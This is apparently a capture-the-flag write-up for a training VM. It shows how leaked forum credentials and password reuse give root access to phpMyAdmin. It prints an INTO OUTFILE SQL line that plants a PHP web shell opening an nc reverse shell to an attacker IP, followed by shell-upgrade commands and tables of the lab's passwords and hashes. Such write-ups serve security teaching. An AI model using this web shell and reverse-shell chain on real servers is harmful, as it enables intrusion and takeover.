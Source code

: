 # Port 443 (HTTPS)

- `https://<IP>/forum/index.php?id=6` leak credentials to access forum as `lmezard`

- User `lmezard` use same password for `webmail` and `forum`

- User `lmezard` mail box leak credentials to access `phpmyadmin` as `root`

- Adding reverse shell backdoor via `phpmyadmin`:

```sql
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Once connected, we can upgrade our shell into a full TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#[CTRL+z]
```

```bash
stty raw -echo
fg
#[ENTER]
#[ENTER]
```

Now we have a full shell as `www-data`

## Credentials found

### `https://$ip/forum`

| Login | Password |
|-|-|
| `lmezard` | [Plain] `!q\]Ej?*5K5cy*AJ` |
| `admin` | [Hex ?] `ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0516d551c28` |
| `qudevide` | [Hex ?] `a12e059d6f4c21c6c5586283c8ecb2b65618ed0a0dc1b302a2` |
| `thor` | [Hex ?] `d30668b779542d60c4cde29e7170148198b1623f4453866797` |
| `wandre` | [Hex ?] `f8562b53084d60efa4208fa50d1ef753ef18e089d2dd56c4ed` |
| `zaz` | [Hex ?] `f10b3271bf523f12ebd58ef8581c851991bf0d4b4c4bf49d7c` |

### `https://$ip/webmail`

| Login | Password |
|-|-|
| `laurie@borntosec.net` | [Plain] `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/phpmyadmin`

| Login | Password |
|-|-|
| `root` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `phpmyadmin` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `debian-sys-maint` | [SHA-1] `52B24D4192EDDFB439C67E1F92421C4D2D4F5598` |

